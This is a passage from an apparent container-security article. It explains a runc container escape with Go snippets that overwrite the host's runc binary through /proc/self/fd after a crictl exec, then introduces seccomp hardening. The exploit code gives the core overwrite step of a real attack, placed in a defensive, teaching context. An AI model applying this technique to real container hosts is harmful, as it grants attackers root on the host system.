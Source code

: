```
        handleFd = int(handle.Fd())
    }
}
log.Println("successfully got the file handle")
```

The attacker is now able to retrieve the right PID if we now do the `exec`:

```
> sudo crictl exec -it my-container /bin/sh
```

Now the attacker can retrieve another file descriptor to `/proc/self/fd/handleFd`, which allows overwriting the binary on the host. If runc now exits, then the attacker is able to run arbitrary commands as root on the host.

```
const payload = "#!/bin/bash \n whoami"

for {
    writeHandle, err := os.OpenFile(
        "/proc/self/fd/"+strconv.Itoa(handleFd),
        os.O_WRONLY|os.O_TRUNC, 0o700,
    )
    if err != nil {
        
    }
    if int(writeHandle.Fd()) > 0 {
        log.Println("successfully got write handle", writeHandle)
        writeHandle.Write([]byte(payload))
        break
    }
}
```

An attacker could now execute any arbitrary `payload` on the host system which is now highly compromised with the overwritten runc binary.

Preventing such issues is not possible in every case, but container-based workloads can be security hardened with additional patterns, for example by applying Secure Computing (seccomp) profiles.

### [](#secure-computing-seccomp)Secure Computing (Seccomp)

[Seccomp](https://en.wikipedia.org/wiki/Seccomp) provides an enhanced way to filter syscalls issued by a program to reduce the Kernels’ attack surface. It is especially useful when running untrusted third-party programs and was introduced back in 2005 in Linux version 2.6.12 as an essential building block of the `cpushare` application. Most of the available system calls are not necessary during program execution. By restricting what system calls can be made, seccomp provides a great addition for building modern application sandboxes.

Linux 3.5 back in 2012 added a filter mode based on the Berkley Packet Filter (BPF) syntax. A lot of tools started to support seccomp from that point in time, for example [Chrome/Chromium](https://chromium.org/), [OpenSSH](https://openssh.com/), [vsftpd](https://security.appspot.com/vsftpd.html) and [Firefox OS](https://en.wikipedia.org/wiki/Firefox_OS).
